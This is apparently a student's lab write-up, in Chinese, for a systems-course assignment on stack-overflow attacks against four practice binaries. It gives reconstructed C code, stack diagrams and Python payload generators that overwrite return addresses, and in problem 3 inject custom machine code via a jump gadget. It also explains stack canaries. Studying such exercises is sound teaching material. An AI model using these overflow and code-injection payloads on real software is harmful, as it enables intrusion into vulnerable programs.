




# 栈溢出攻击实验

## 题目解决思路


### Problem 1
- **分析**：

本题相对较简单，按照常规分析思路，首先找哪里可能导致栈溢出，其次再找哪里可以输出 “Yes!I like ICS!” 这个字符串。通过翻译，不难发现 problem 1 的 C 代码如下：

``` c
void func(char *s) {
  char buffer[8];
  strcpy(buffer, s);
}

void func1() {
  puts("Yes!I like ICS!");
  exit(0);
}

int main(int argc, char *argv[]) {
    char payload[256];
	// 略，从argv[1]中读取payload
    func(payload);
    // 略，处理错误分支以及输出提示
}
```

注意到 func 在栈上开辟了一个 8 字节大小的数组用来复制 payload 中的字符串，但是 payload 却有至多 256 个字符，而 strcpy 实际上是一个不安全的函数，他不会检测目标位置有没有足够的空间来存储这个字符串，只会一直读取直到遇到 '\0'。 这可能成为我们可以利用的栈溢出攻击位置，画出此时的栈区内存模型图：

```stack
                                       +-----------------+
                                       |  return address |
                                       +-----------------+
                                       |     old ebp     |
                              ebp ---> +-----------------+
                                       |     buffer      |
                  rdi = ebp - 0x8 ---> +-----------------+
                                       |                 |
                                       |     payload     |
                 rsi = ebp - 0x18 ---> +-----------------+     
                                       |                 |
                                       |                 |
                 esp = ebp - 0x20 ---> +-----------------+
```

又因为 func1 是一个无条件输出 “Yes!I like ICS!” 的函数，因此我们只要保证输入串能覆盖 8 位的 buffer 以及 8 位的 old ebp，同时最后的 8 位写上 func1 函数的开始地址即可。

- **解决方案**：

``` python
padding = b"A" * 16                                 # 前导串，无意义
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00" # func1 的地址，用于改变 func 函数的返回地址
payload = padding + func1_address
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans1.txt")
```

- **结果**：



### Problem 2
- **分析**：

本题与上一题同理，只是更需要一些灵活性而不是死板的套公式。大体的思路依然是：首先找哪里可能导致栈溢出，其次再找哪里可以输出 “Yes!I like ICS!” 这个字符串。依然先翻译可能用到的函数：

``` c
void func(char *s) {
  char buffer[8];
  memcpy(buffer, s, 56);
}

void func2(int x) {
  if (x != 1016) printf("I think that you should give me the right number!\n");
  else printf("Yes!I like ICS!\n");
  exit(0);
}

int main(int argc, char *argv[]) {
    char payload[268];
	// 从 argv[1] 读取字符串到 payload，并输出一些提示信息
    func(payload);
	// 处理错误分支
}
```

观察到和上一题一样 func 同样开辟了一个大小为 8 字节的数组，用来拷贝最大长度为 268 的 payload，同时这个函数也~~很贴心的~~使用了一个存在危险的函数 memcpy，而且还非常不小心的拷贝了 56 个字节这也就导致了溢出的危险，此时它的栈区模型如下图：

```stack
                                       +-----------------+
                                       |  return address |
                                       +-----------------+
                                       |     old ebp     |
                              ebp ---> +-----------------+
                                       |     buffer      |
                  rdi = ebp - 0x8 ---> +-----------------+
                                       |                 |
                                       |     payload     |
                 rsi = ebp - 0x18 ---> +-----------------+     
                                       |                 |
                                       |                 |
                 esp = ebp - 0x20 ---> +-----------------+
```

这个模型和第一题不能说有点相似，只能说一模一样。因此我们可以构造同样的一个 payload 来通过溢出攻击改变 return address。问题是这个题目和第一题不一样的地方在于 func2 并不是无脑输出正确结果，还要求 rdi 传递的第一个参数为 1016，而实际上在程序本身很难直接找到一段代码可以实现这个功能，同时我们也不能运行栈区代码（Nx Enabled），如此似乎进入了僵局。

可是，如果我们再思考一下，也没有规定只能从某个函数的函数头开始运行，如果我们能直接 call 到 func2 的第二个分支内部，那是不是我们就可以避免这一个判断条件呢？答案当然是可以的！~~盲生，你发现了华点！~~至此，问题得到了解决。

- **解决方案**：

```python
padding = b"\x00" * 16                              # 前导串，无意义
func2_address = b"\x4c\x12\x40\x00\x00\x00\x00\x00" # func2 的第二个分支的开始地址，用于改变 func 函数的返回地址
payload = padding + func2_address
with open("ans.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans.txt")
```

- **结果**：



### Problem 3
- **分析**：

本题相对比较复杂，但是核心的思路也是一样的，先找可能导致栈溢出的地方，再找输出成功信息的函数并且想方法调出来即可。根据这个思路，我们依然先翻译几个函数：

```c
void func1(int x) {
  char buffer1[50];
  if (x == 114) {
    strcpy(buffer1, "Your lucky number is 114");
    memset(&buffer1[25], 0, 25);
  } else {
    strcpy(buffer1, "Error answer!");
    memset(&buffer1[14], 0, 36);
  }
  puts(buffer1);
  exit(0);
}

void func(char *s) {
  char buffer[32];
  saved_rsp = 当前的 rsp 地址;
  memcpy(buffer, s, 64);
  puts("Now, say your lucky number is 114!");
  puts("If you do that, I will give you great scores!");
}

int main(int argc, char *argv[]) {
    char payload[268];
	// 从 argv[1] 读取字符串到 payload，并输出一些提示信息
    func(payload);
	// 处理错误分支
}
```

同时我们可以画出 func 函数的栈区模型图：

```stack
                                       +-----------------+
                                       |  return address |
                                       +-----------------+
                                       |     old ebp     |
                              ebp ---> +-----------------+
                                       |                 |
                              		   |                 |
                                       |                 |
                                       |     buffer      |
                 rsi = ebp - 0x20 ---> +-----------------+     
                                       |                 |
                                       |                 |
                 esp = ebp - 0x30 ---> +-----------------+
```

从 c 代码上看，本题和上一题一样调用了危险的 memcpy 函数所以 func 函数会成为我们栈溢出攻击的主要对象，同时要求我们调用 func1 函数并且保证参数为114，同样的我们找不到一个位置来将 rdi 转化成 114。同时由于 func1 的输入通过一个定义在栈上的 buffer 输出，而这个 buffer 又需要通过 rbp 定位。而又由于栈随机化的特点，我们无从得知一个可以访问的栈区地址，所以利用栈溢出时无从确定如何在存储 old rbp 的位置填入什么内容，所以会导致内存访问错误。（此处关闭栈随机化，并运行一次之后记住 old rbp 的值也是在理论上可行的，但是不优雅）

但是，如果不能取巧的话，用最笨的办法可以做到吗？我们自己写一个如下的代码并且通过栈溢出让程序执行这段代码不就可以了吗？

```assembly
	<unknown_address>:	     fe 0f 1e fa            endbr64
	<unknown_address+0x4>:   bf 72 00 00 00         mov     0x72, %edi
	<unknown_address+0x9>:   48 b8 16 12 40 00 00   mov     0x401216, %rax
	<unknown_address+0x10>:  00 00 00        
	<unknown_address+0x13>:  ff d0                  call    *%rax
```

注意，此处没有使用 call 401216，原因是当把绝对地址转化为 call 的机器码的时候要计算当前 rip 位置与目标位置的偏移量，又由于栈随机化的特性（关掉了当我没说），我们无从得知这段写在栈上的代码会在何处被执行，所以我们必须使用一个寄存器来存这个绝对地址，并使用 call 这个寄存器的方式实现间接调用。

同时，我们还要解决一个问题，因为栈随机化（关掉了当我没说，~~欸这话说了几次了？~~），所以我们无法直接通过改变 return address 到我们写的这段代码上。但是我们刚好发现有一个神奇的 jmp_xs 函数，它可以调用了一个 saved_rsp + 0x10 位置的代码，刚刚好 saved_rsp 在 func 函数中被保存过，又刚刚好我们的 buffer 的起始位置就是 saved_rsp + 0x10。至此，我们的问题得到解决，只要改变 return address 到 jmp_xs 函数上并且在 buffer 的最开始输入将以上代码的机器码写入即可。

- **解决方案**：

```python
machine_ins = b"\xf3\x0f\x1e\xfa\xbf\x72\x00\x00\x00\x48\xb8\x16\x12\x40\x00\x00\x00\x00\x00\xff\xd0"
padding = b"\x00" * 19
return_address = b"\x34\x13\x40\x00\x00\x00\x00\x00" # 对应 jmp_xs 函数的起始位置
payload = machine_ins + padding + return_address
with open("ans.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans.txt")
```

- **结果**：



### Problem 4
- **分析**：

首先分析 Canary 保护，也即 “金丝雀” 保护机制，通过在某个函数开始执行前向栈帧中特定位置存放一个特定的数字（往往是随机数），并且检验在函数返回前同一个位置的值有没有被改变来检测存不存在栈溢出现象，具体在代码中的体现如下，下面是某一个函数的开头部分截取的片段：
```assembly
    136c:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
    1373:	00 00 
    1375:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
```

从这段代码首先用 %fs 段寄存器指向的地址偏移 0x28 的位置加载到栈上 %rbp - 8 的位置上。在 Linux 系统中，%fs 通常用于访问线程局部存储，而由于栈随机化的存在，这个地址是相对随机的，而在末尾有如下代码：

```assembly
    140a:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    140e:	64 48 2b 04 25 28 00 	sub    %fs:0x28,%rax
    1415:	00 00 
    1417:	74 05                	je     141e <func+0xc1>
    1419:	e8 b2 fc ff ff       	call   10d0 <_init+0xd0>
    141e:	c9                   	leave  
    141f:	c3                   	ret    
```

这段代码去除了之前存在栈中的 canary 并和原值做了一个比较，如果相同则正常返回，否则调用 0x10d0 位置的函数，这个函数用于抛出栈异常错误。这整一套流程也就实现了所谓的 canary 保护。


其次，我们来考虑这个问题，将有必要用到的代码翻译如下：

```c
void func1() {
  puts("great!I will give you great scores");
}

void func(unsigned int yuanshi) {
  unsigned int tmp = yuanshi;
  printf("your money is %u\n", yuanshi);
  if (yuanshi >= 0xFFFFFFFE) {
    for (int i = 0; i < 0xFFFFFFFE; ++i)
      --tmp;
    if (tmp == 1 && yuanshi == -1) {
      func1();
      exit(0);
    }
    puts("No! I will let you fail!");
  } else
    puts("your money is not enough!");
}

void caesar_decrypt(const char *ciphertext, int bias) {
  int len = strlen(ciphertext);
  for (int i = 0; i < len; ++i) {
    char ch = ciphertext[i];
    if (isalpha(ch)) {
      if (islower(ch))
        char base = 97;
      else
        char base = 65;
      ciphertext[i] = (ch - base - bias + 26) % 26 + base;
    }
  }
}

int main() {
  char name[45];
  char like[32];
  char s[56];
  puts("hi please tell me what is your name?");
  scanf("%s", &name[13]);
  strcpy(name, "pakagxuwquoe");
  caesar_decrypt(name, 12);
  puts("hi! do you like ics?");
  scanf("%s", like);
  strcpy(s, "urkagsuhqyqkgmzetuuiuxxsuhqkagsaapeoadqe");
  caesar_decrypt(s, 12);
  puts("if you give me enough yuanshi,I will let you pass!");
  for (int *ys = 0;; func(*ys)) scanf("%d", ys);
}
```

可以发现，整个凯撒加密解密的过程都没有意义，整个程序唯一可以输出通关信息的就是 func1，同时只有 func 调用了 func1，要想 func 调用 func1，只要 yuanshi 为 -1 即可，而这个局部变量刚好是最后一个 scanf 读取的 v3 变量。所以前面输入不重要，只要最后输入 -1 即可。

- **解决方案**：

无 payload，输入直接在结果图中体现

- **结果**：



## 思考与总结

总体来说，几个题目的想法都是类似的，首先找哪里可能导致栈溢出，其次再找哪里可以输出目标字符串，如果没有直接的，我们怎么通过对已有片段的 ”断章取义“ 或者直接自己写机器码实现功能，这也是一个很一般的思路，适用于大多数针对于 return address 的栈溢出攻击。通过这个作业，~~我以后再也不写 get、memcpy、strcpy函数了~~，我意识到了这些函数的危险性，对于栈溢出攻击和主要的防御手段有了深入的了解，收获了很多。同时我觉得这种不限制思路，允许多样化的手段，只给一个最终攻击目标的题目非常有趣，也能引导我思考有没有更多的思路解决同一个问题。

## 参考资料

本次作业无需参考任何资料
